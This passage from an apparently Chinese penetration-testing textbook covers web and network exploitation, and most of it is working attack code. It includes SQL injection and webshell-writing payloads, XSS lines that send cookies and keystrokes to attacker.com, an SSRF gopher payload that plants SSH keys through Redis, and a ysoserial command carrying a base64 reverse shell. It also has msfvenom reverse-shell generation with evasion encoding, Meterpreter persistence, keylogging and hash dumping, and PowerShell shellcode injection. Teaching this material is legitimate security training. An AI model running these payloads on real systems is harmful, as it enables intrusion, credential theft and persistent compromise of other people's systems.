




## 2.3 漏洞利用技术

漏洞利用（Exploitation）是渗透测试的核心环节——在信息收集和漏洞识别之后，利用已发现的弱点获取目标系统的访问权限或执行非授权操作。本节系统梳理Web应用漏洞利用、网络服务漏洞利用、利用框架与工具三大领域，从原理机制到实操手法逐层递进。

---

### 2.3.1 Web应用漏洞利用

Web应用是互联网暴露面最大的攻击入口，OWASP Top 10多年来的统计显示，注入类漏洞、认证缺陷和敏感数据泄露始终占据前列。以下按漏洞类型逐一展开。

#### SQL注入（SQL Injection）

**原理机制**：SQL注入的本质是**数据与代码的边界混淆**。当应用程序将用户输入直接拼接到SQL语句中而未做正确的参数化处理时，攻击者可以构造恶意输入改变SQL语义，执行原本非预期的数据库操作。



**注入分类与技术细节**：

| 类型 | 原理 | 检测方法 | 危害等级 |
|------|------|----------|----------|
| **联合查询注入** | 使用UNION SELECT将攻击者查询结果合并到原查询结果中 | 页面返回数据中出现注入查询的结果 | 高 |
| **布尔盲注** | 通过观察页面返回True/False差异逐位推断数据 | 页面内容因注入条件不同而变化 | 高 |
| **时间盲注** | 通过SLEEP()等函数造成时间延迟来判断条件真假 | 响应时间差异 | 高 |
| **报错注入** | 利用数据库报错信息带出数据 | 页面显示数据库错误信息 | 高 |
| **堆叠注入** | 使用分号分隔执行多条SQL语句 | 可执行任意SQL（INSERT/UPDATE/DELETE） | 极高 |
| **带外注入** | 通过DNS请求或HTTP请求将数据外带 | 需要数据库支持外带功能（如Oracle UTL_HTTP） | 高 |

**实战利用流程（以sqlmap为例）**：

```bash
# 1. 基础检测：判断目标是否存在SQL注入
sqlmap -u "http://target.com/page?id=1" --batch

# 2. 指定注入技术和探测等级
sqlmap -u "http://target.com/page?id=1" --technique=BEUST --level=3 --risk=2

# 3. 枚举数据库信息
sqlmap -u "http://target.com/page?id=1" --dbs                  # 列出所有数据库
sqlmap -u "http://target.com/page?id=1" -D mydb --tables       # 列出指定数据库的表
sqlmap -u "http://target.com/page?id=1" -D mydb -T users --columns  # 列出表的列
sqlmap -u "http://target.com/page?id=1" -D mydb -T users -C username,password --dump  # 导出数据

# 4. POST请求注入（使用Burp抓包保存为request.txt）
sqlmap -r request.txt --batch --level=3

# 5. Cookie注入（针对认证后的接口）
sqlmap -u "http://target.com/dashboard" --cookie="session=abc123; id=1*" --level=2

# 6. 获取操作系统Shell（前提：DBA权限 + 可写目录）
sqlmap -u "http://target.com/page?id=1" --os-shell

# 7. 绕过WAF的常用参数
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment,between,randomcase \
    --random-agent --delay=1
```

**手工注入速查（MySQL为例）**：

```sql
-- 判断列数
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY N-- -   -- 直到报错，N-1即为列数

-- 联合查询获取数据
' UNION SELECT 1,2,3-- -              -- 确认回显位
' UNION SELECT 1,user(),version()-- - -- 获取数据库用户和版本
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()-- -

-- 报错注入
' AND extractvalue(1,concat(0x7e,(SELECT user()),0x7e))-- -
' AND updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)-- -

-- 时间盲注
' AND IF(SUBSTRING(user(),1,1)='r',SLEEP(3),0)-- -

-- 写入WebShell（需FILE权限 + secure_file_priv为空）
' UNION SELECT 1,'<?php eval($_POST[cmd]);?>',3 INTO OUTFILE '/var/www/html/shell.php'-- -
```

**防御绕过技术**：

- **编码绕过**：URL编码、双重URL编码、Unicode编码（`%u0027`代替单引号）
- **注释绕过**：`/**/`代替空格，`/*!50000UNION*/`利用MySQL条件注释
- **大小写变换**：`UnIoN SeLeCt` 绕过简单关键字过滤
- **等价替换**：`||`代替`OR`，`&&`代替`AND`，`like`代替`=`
- **参数污染**：HPP（HTTP Parameter Pollution）在不同服务器解析差异中寻找机会
- **分块传输**：利用Transfer-Encoding: chunked绕过WAF对完整请求体的检测

#### 跨站脚本（XSS）

**原理机制**：XSS的本质是**信任边界突破**——Web应用将用户可控的数据未经过HTML编码就输出到页面中，浏览器将其解析为可执行的脚本代码而非纯文本数据。

**三种类型对比**：

| 类型 | 存储位置 | 触发方式 | 危害程度 | 持久性 |
|------|----------|----------|----------|--------|
| **反射型XSS** | URL参数中 | 用户点击恶意链接 | 中 | 一次性 |
| **存储型XSS** | 服务器数据库中 | 用户访问包含恶意内容的页面 | 高 | 持久化 |
| **DOM型XSS** | 客户端DOM中 | JavaScript处理URL/DOM数据时触发 | 中-高 | 一次性 |

**攻击载荷构造**：

```html
<!-- 基础弹窗检测 -->
<script>alert(document.domain)</script>

<!-- 绕过简单过滤 -->

<svg onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>

<!-- Cookie窃取 -->
<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>

<!-- 键盘记录 -->
<script>
document.onkeypress=function(e){
    fetch('https://attacker.com/log?k='+e.key)
}
</script>

<!-- 绕过CSP的技巧 -->
<!-- 如果CSP允许unsafe-inline -->


<!-- 利用base标签改变相对路径 -->
<base href="https://attacker.com/">
```

**BeEF（Browser Exploitation Framework）实战**：

```bash
# 启动BeEF
beef-xss

# 注入hook到目标页面
<script src="http://YOUR_IP:3000/hook.js"></script>

# 通过BeEF控制台可以：
# - 获取浏览器信息、系统信息
# - 读取剪贴板内容
# - 发起内网扫描
# - 植入键盘记录器
# - 进行社会工程学钓鱼
```

**CSP（内容安全策略）绕过技巧**：

- 当`script-src`包含`unsafe-inline`时：直接注入内联脚本
- 当允许`*.trusted.com`子域时：寻找该子域上的XSS或JSONP端点
- 当存在`nonce`泄露时：从页面中提取nonce值使用
- 利用`base-uri`缺失：设置`<base>`标签指向攻击者服务器
- 利用`object-src`缺失：通过Flash/SVG加载外部脚本

#### 服务器端请求伪造（SSRF）

**原理机制**：SSRF允许攻击者利用服务器作为代理，向服务器可访问的任意网络位置发起请求。其核心风险在于**突破网络边界**——服务器通常位于内网，可以访问外部无法直接触及的内部服务。



**典型利用场景**：

```bash
# 1. 读取本地文件
curl "http://target.com/fetch?url=file:///etc/passwd"
curl "http://target.com/fetch?url=file:///proc/self/environ"

# 2. 访问云服务元数据（AWS/GCP/Azure）
curl "http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/"
curl "http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# AWS IMDSv2需要先获取token
curl "http://target.com/fetch?url=http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"

# 3. 内网服务探测
curl "http://target.com/fetch?url=http://127.0.0.1:6379/INFO"     # Redis
curl "http://target.com/fetch?url=http://127.0.0.1:9200/_cat/indices"  # ElasticSearch
curl "http://target.com/fetch?url=http://127.0.0.1:8080/actuator"  # Spring Boot

# 4. 利用Gopher协议攻击内网Redis（写入SSH公钥或Crontab）
curl "http://target.com/fetch?url=gopher://127.0.0.1:6379/_*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0a1%0d%0a\$33%0d%0a\n\nssh-rsa AAAA...your_key...\n\n%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$15%0d%0aauthorized_keys%0d%0a*1%0d%0a\$4%0d%0asave%0d%0a"
```

**SSRF绕过技巧**：

| 技巧 | 示例 | 原理 |
|------|------|------|
| IP十进制表示 | `http://2130706433` (=127.0.0.1) | 将IP转为十进制绕过字符串匹配 |
| IPv6表示 | `http://[::1]` | 部分过滤器不处理IPv6 |
| 畸形URL | `http://127.0.0.1:80@evil.com` | 不同URL解析器的行为差异 |
| DNS重绑定 | 先解析到允许的IP，后解析到内网IP | 利用TTL=0的DNS记录在验证和请求之间切换 |
| 302重定向 | `http://attacker.com/redirect` → `http://169.254.169.254` | 服务端跟随重定向 |
| Enclosed Alphanumerics | `①②⑦.⓪.⓪.①` | Unicode变体绕过正则 |
| 协议混淆 | `dict://`, `gopher://`, `tftp://` | 利用非HTTP协议的特殊能力 |

#### 反序列化漏洞

**原理机制**：序列化是将对象转换为字节流以便存储或传输的过程，反序列化则是其逆过程。当应用程序反序列化不可信的数据时，攻击者可以构造恶意的序列化数据，在反序列化过程中触发预定义的**魔法方法**（如`__wakeup`、`__destruct`、`readObject`等），实现远程代码执行。

**各语言反序列化对比**：

| 语言 | 序列化格式 | 危险函数/类 | 利用链示例 |
|------|------------|-------------|------------|
| **PHP** | `serialize()`/`unserialize()` | `__wakeup()`, `__destruct()`, `__toString()` | POP链构造，Laravel/RCE链 |
| **Java** | `ObjectInputStream`/`readObject()` | `readObject()`, `readResolve()` | CommonsCollections, ysoserial |
| **Python** | `pickle.dumps()`/`pickle.loads()` | `__reduce__()` | 直接RCE |
| **.NET** | `BinaryFormatter`/`JavaScriptSerializer` | `ISerializable`, `ObjectStateFormatter` | ViewState反序列化 |
| **Ruby** | `Marshal.load()`/`YAML.load()` | `respond_to?()`, ERB模板 | Rails反序列化链 |

**Java反序列化利用（ysoserial）**：

```bash
# 生成CommonsCollections5利用链payload
java -jar ysoserial.jar CommonsCollections5 "whoami" > payload.bin

# 发送payload到目标（示例：Tomcat的AJP协议）
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" > payload.bin

# 结合其他工具发送
curl -X POST http://target.com/api/deserialize -H "Content-Type: application/octet-stream" --data-binary @payload.bin
```

**Python反序列化RCE（构造恶意pickle）**：

```python
import pickle
import os

class Exploit:
    def __reduce__(self):
        # 反序列化时会执行 os.system("id")
        return (os.system, ("id",))

payload = pickle.dumps(Exploit())
print(payload)
# 将payload发送到使用pickle.loads()的接口
```

**PHP反序列化POP链构造**：

```php
<?php
// 假设目标代码中有以下类
class Database {
    private $conn;
    public function __destruct() {
        // 如果$conn被设置为恶意命令，析构时会执行
        system($this->conn);
    }
}

// 构造恶意序列化数据
$db = new Database();
$db->conn = "id > /tmp/output.txt";
echo urlencode(serialize($db));
// O:8:"Database":1:{s:11:"Databaseconn";s:26:"id > /tmp/output.txt";}
?>
```

#### 文件上传漏洞

**原理机制**：文件上传漏洞源于Web应用对用户上传文件的类型、内容、存储路径等校验不严格，攻击者上传WebShell、恶意脚本或特殊文件获取服务器控制权。

**绕过上传限制的技术矩阵**：

| 绕过方式 | 具体手法 | 防御对应的弱点 |
|----------|----------|----------------|
| **扩展名绕过** | `.php5`, `.phtml`, `.pht`, `.php.jpg`, `.php::$DATA`（Windows） | 仅检查扩展名黑名单 |
| **MIME类型绕过** | 修改Content-Type为`image/jpeg` | 仅检查Content-Type |
| **文件头伪造** | 添加GIF89a头或PNG文件头 | 仅检查文件头魔术字节 |
| **双写绕过** | `.pphphp` → 过滤后变为`.php` | 正则替换不递归 |
| **截断上传** | `shell.php%00.jpg`（00截断） | 低版本PHP/应用层路径拼接问题 |
| **.htaccess覆盖** | 上传`.htaccess`添加`AddType application/x-httpd-php .jpg` | Apache允许覆盖配置 |
| **解析漏洞** | IIS的`/shell.asp/test.jpg`、Nginx的`/shell.jpg/x.php` | 中间件配置不当 |
| **图片马** | 在图片EXIF或尾部嵌入PHP代码 | 仅校验图片格式不检查内容 |

**WebShell示例**：

```php
<!-- 一句话木马 -->
<?php @eval($_POST['cmd']);?>

<!-- 密码保护的一句话 -->
<?php if(md5($_GET['pass'])==='e10adc3949ba59abbe56e057f20f883e'){eval($_POST['cmd']);}?>

<!-- 内存马（无文件落地） -->
<?php
$func = $_REQUEST['func'];
$z = $_REQUEST['z'];
$func($z);
?>

<!-- 哥斯拉/冰蝎常见一句话 -->
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%>
```

**使用Metasploit生成和利用WebShell**：

```bash
# 生成PHP Meterpreter payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw > shell.php

# 配置handler
msfconsole -q -x "
use exploit/multi/handler;
set payload php/meterpreter/reverse_tcp;
set LHOST 10.0.0.1;
set LPORT 4444;
exploit;
"
```

#### 其他重要Web漏洞

**XXE（XML外部实体注入）**：

```xml
<!-- 读取本地文件 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- SSRF利用 -->
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>

<!-- Blind XXE（带外数据外带） -->
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<!-- evil.dtd内容 -->
<!ENTITY % data "<!ENTITY exfil SYSTEM 'http://attacker.com/collect?data=%file;'>">
%data;
```

**CSRF（跨站请求伪造）**：

```html
<!-- 自动提交的CSRF表单 -->
<html>
<body onload="document.getElementById('csrf-form').submit();">
  <form id="csrf-form" action="http://target.com/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123"/>
  </form>
</body>
</html>

<!-- 使用img标签发起GET型CSRF -->

```

**远程代码执行（RCE）常见触发点**：

```python
# Python危险函数
eval(user_input)           # 执行任意Python表达式
exec(user_input)           # 执行任意Python代码
os.system(user_input)      # 系统命令执行
subprocess.call(user_input, shell=True)  # 子进程命令执行
__import__(user_input)     # 动态导入模块

# Node.js危险函数
eval(user_input)           # 执行任意JS代码
child_process.exec(user_input)  # 系统命令执行
Function(user_input)()     # 动态函数构造
```

---

### 2.3.2 网络服务漏洞利用

网络服务漏洞利用针对的是操作系统、中间件和网络协议层面的弱点，通常比Web漏洞更底层，利用成功后可直接获得系统级访问权限。

#### Metasploit框架

**Metasploit**是渗透测试领域最广泛使用的开源漏洞利用框架，由Rapid7维护，集成了超过2000个漏洞利用模块、数千个Payload和辅助模块。

**核心架构组件**：



**完整利用流程实战（以MS17-010 EternalBlue为例）**：

```bash
# 步骤1: 启动Metasploit
msfconsole -q

# 步骤2: 搜索对应漏洞模块
msf6 > search ms17-010

# 步骤3: 使用漏洞扫描模块确认目标是否脆弱
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > set RHOSTS 192.168.1.100
msf6 > run
# [+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!

# 步骤4: 使用漏洞利用模块
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.1.100
msf6 > set LHOST 192.168.1.10
msf6 > set LPORT 4444

# 步骤5: 选择Payload（根据目标环境选择）
msf6 > set payload windows/x64/meterpreter/reverse_tcp
# 高级选择：使用staged payload更稳定
# set payload windows/x64/meterpreter/reverse_tcp    (staged, 需要handler)
# set payload windows/x64/meterpreter_reverse_tcp    (inline, 自包含)

# 步骤6: 配置高级选项
msf6 > set ExitOnSession false    # 保持监听不退出
msf6 > set EnableStageEncoding true  # 编码stage躲避检测
msf6 > set PrependMigrate true    # 自动迁移进程

# 步骤7: 执行
msf6 > exploit -j    # 后台运行
```

**Meterpreter后渗透核心命令**：

```bash
# 系统信息
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getpid

# 文件操作
meterpreter > download C:\\Users\\admin\\secret.txt /tmp/
meterpreter > upload /tmp/shell.exe C:\\Windows\\Temp\\
meterpreter > search -f *.docx -d C:\\Users

# 权限提升
meterpreter > getsystem
meterpreter > background
msf6 > use post/multi/recon/local_exploit_suggester
msf6 > set SESSION 1
msf6 > run

# 持久化
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.10
meterpreter > run metsvc    # 安装Meterpreter服务

# 网络嗅探
meterpreter > load sniffer
meterpreter > sniffer_interfaces
meterpreter > sniffer_start 1
meterpreter > sniffer_dump 1 /tmp/capture.pcap

# 键盘记录
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop

# 哈希获取
meterpreter > hashdump
meterpreter > load kiwi
meterpreter > creds_all

# 进程迁移（避免目标进程崩溃导致shell丢失）
meterpreter > migrate -N explorer.exe
```

**MSFVenom Payload生成速查**：

```bash
# Windows反向Shell（EXE）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe

# Windows反向Shell（DLL注入）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll -o shell.dll

# Linux反向Shell（ELF）
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o shell.elf

# PHP WebShell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw > shell.php

# Python反向Shell（跨平台）
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw > shell.py

# Java WAR包（Tomcat部署）
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f war -o shell.war

# PowerShell编码Payload（绕过基础AMSI检测）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f psh-cmd -o payload.bat

# 带编码器和迭代次数（混淆）
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 \
    -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
```

#### 缓冲区溢出

**原理机制**：缓冲区溢出是一类经典的内存安全漏洞。当程序向固定大小的缓冲区写入超过其容量的数据时，溢出的数据会覆盖相邻的内存区域，特别是函数的返回地址。通过精心构造溢出数据，攻击者可以将返回地址修改为攻击者控制的Shellcode地址，实现程序执行流程的劫持。

**栈溢出的基本流程**：



**栈溢出利用的基本步骤（Linux x86为例）**：

```bash
# 步骤1: 确定偏移量（使用pattern工具）
# 生成唯一pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
# 将pattern作为输入发送到漏洞程序
# 记录崩溃时EIP的值
# 计算偏移
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 0x41366641

# 步骤2: 确认控制EIP
python -c "print('A'*260 + 'BBBB' + 'CCCC')" | ./vulnerable_program
# 如果EIP = 0x42424242，则偏移正确

# 步骤3: 寻找坏字符（Bad Characters）
# 测试哪些字符会导致payload截断或变形
python -c "
import struct
badchars = ''
for i in range(1, 256):
    badchars += chr(i)
print('A'*260 + struct.pack('<I', 0x08048544) + badchars)
" | ./vulnerable_program

# 步骤4: 寻找JMP ESP地址（用于跳转到Shellcode）
# 使用mona.py（Immunity Debugger）
# !mona jmp -r esp -cpb '\x00'  # 排除空字节
# 或者在Linux中使用objdump/gdb
objdump -d ./vulnerable_program | grep "jmp.*esp"

# 步骤5: 生成Shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -b '\x00' -f python

# 步骤6: 组装最终payload
python -c "
import struct
offset = b'A' * 260
eip = struct.pack('<I', 0x08048544)  # JMP ESP地址
nop_sled = b'\x90' * 16
shellcode = b'\xbf\x...'  # msfvenom生成的shellcode
print(offset + eip + nop_sled + shellcode)
" > /tmp/exploit.bin
cat /tmp/exploit.bin | ./vulnerable_program
```

**现代缓冲区溢出防护与绕过**：

| 防护机制 | 作用 | 绕过技术 |
|----------|------|----------|
| **ASLR**（地址空间随机化） | 随机化内存布局 | 信息泄露、ROP链、部分覆盖 |
| **DEP/NX**（数据执行保护） | 标记数据页不可执行 | ROP（Return-Oriented Programming） |
| **Stack Canary**（栈保护） | 栈帧溢出检测 | 泄露canary值、格式化字符串泄露 |
| **PIE**（位置无关可执行） | 随机化代码段基址 | 信息泄露、信息泄露+ROP |
| **CFI**（控制流完整性） | 限制间接跳转目标 | 绕过CFI策略的Gadget |

**ROP（Return-Oriented Programming）基础**：

```bash
# ROP的核心思想：不注入新代码，而是链接已有的代码片段（Gadget）
# 每个Gadget以ret结尾，通过控制栈上的返回地址链来串联执行

# 使用ROPgadget工具查找可用Gadget
ROPgadget --binary ./vulnerable_program --ropchain

# 使用ropper工具
ropper -f ./vulnerable_program --search "pop eax"
ropper -f ./vulnerable_program --search "int 0x80"

# pwntools自动化构造ROP链
from pwn import *

elf = ELF('./vulnerable_program')
rop = ROP(elf)

# 调用system("/bin/sh")
rop.call('system', [next(elf.search(b'/bin/sh'))])
print(rop.dump())

payload = flat(
    b'A' * 260,
    rop.chain()
)
```

#### 认证绕过与密码攻击

**在线暴力破解**：

```bash
# Hydra：支持50+协议的暴力破解工具
# SSH暴力破解
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# HTTP表单暴力破解
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form \
    "/login:username=^USER^&password=^PASS^:Invalid credentials"

# 带代理和延迟的暴力破解（防封IP）
hydra -l admin -P passwords.txt -w 5 -s 8080 192.168.1.100 http-get "/admin"

# Medusa：并行暴力破解
medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh -t 4

# Patator：灵活的暴力破解框架
patator ssh_login host=192.168.1.100 user=admin password=FILE0 \
    0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Authentication failed.'
```

**离线密码破解**：

```bash
# Hashcat：GPU加速密码破解
# MD5
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
# SHA-256
hashcat -m 1400 -a 0 hashes.txt wordlist.txt
# bcrypt
hashcat -m 3200 -a 0 hashes.txt wordlist.txt
# NTLM（Windows密码）
hashcat -m 1000 -a 0 ntlm_hashes.txt wordlist.txt
# 使用规则文件增强字典
hashcat -m 0 -a 0 hashes.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule
# 掩码攻击（8位小写字母+数字）
hashcat -m 0 -a 3 hashes.txt ?l?l?l?l?l?l?d?d

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
john --show hashes.txt    # 显示已破解的密码

# 掩码规则说明
# ?l = 小写字母  ?u = 大写字母  ?d = 数字
# ?s = 特殊字符  ?a = 所有字符  ?b = 0x00-0xff
```

**认证逻辑绕过常见手法**：

```python
# 1. SQL注入绕过认证
# 用户名: admin' OR '1'='1' --
# 密码: 任意

# 2. JWT令牌伪造
# 未验证签名：修改Header中的alg为none
import json, base64
header = base64.b64encode(json.dumps({"alg":"none","typ":"JWT"}).encode()).rstrip(b'=')
payload = base64.b64encode(json.dumps({"user":"admin","role":"admin"}).encode()).rstrip(b'=')
token = header.decode() + '.' + payload.decode() + '.'
print(token)

# 3. 密码重置逻辑漏洞
# 修改重置请求中的用户ID
# POST /reset-password
# {"token":"valid_token","user_id":"victim_id","new_password":"hacked"}

# 4. 竞态条件（Race Condition）
# 同时发送多个并发请求，利用时序窗口
import requests, threading
def exploit():
    requests.post("http://target.com/transfer",
                  json={"to":"attacker","amount":10000})
threads = [threading.Thread(target=exploit) for _ in range(50)]
for t in threads: t.start()
for t in threads: t.join()
```

#### 内存注入与进程操控

**进程注入技术（Windows）**：

```powershell
# PowerShell进程注入
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out int lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
"@

# 注入Shellcode到目标进程
$proc = Get-Process -Name notepad
$kernel32 = Add-Type -MemberDefinition $code -Name "Kernel32" -Namespace "Win32" -PassThru
$hProcess = $kernel32::OpenProcess(0x1F0FFF, $false, $proc.Id)
$addr = $kernel32::VirtualAllocEx($hProcess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[int]$written = 0
$kernel32::WriteProcessMemory($hProcess, $addr, $shellcode, $shellcode.Length, [ref]$written)
$tid = [uint32]0
$kernel32::CreateRemoteThread($hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [ref]$tid)
```

**反射型DLL注入**：

```bash
# 使用Metasploit的migrate功能
meterpreter > migrate 1234    # 迁移到PID 1234的进程

# 手动反射型DLL注入（使用msfvenom生成DLL + inject）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll -o inject.dll
# 使用Invoke-ReflectivePEInjection.ps1
```

---

### 2.3.3 利用框架与工具

除Metasploit外，渗透测试领域还有大量专业的利用框架和工具，各有侧重。

#### 综合渗透框架

| 工具 | 类型 | 核心优势 | 适用场景 |
|------|------|----------|----------|
| **Cobalt Strike** | 商业（$3,500+/年） | 红队协作、隐蔽C2、Malleable C2 Profile | 企业红队、APT模拟 |
| **Sliver** | 开源（BishopFox） | Go语言、跨平台、多C2协议 | 替代Cobalt Strike |
| **Havoc** | 开源 | 现代化UI、多用户协作 | 中小型红队 |
| **Empire** | 开源 | PowerShell/Python后渗透 | Windows域渗透 |
| **Mythic** | 开源 | 跨平台、Docker部署、Payload Type接口化 | 定制化C2需求 |

#### Windows域渗透工具链

```bash
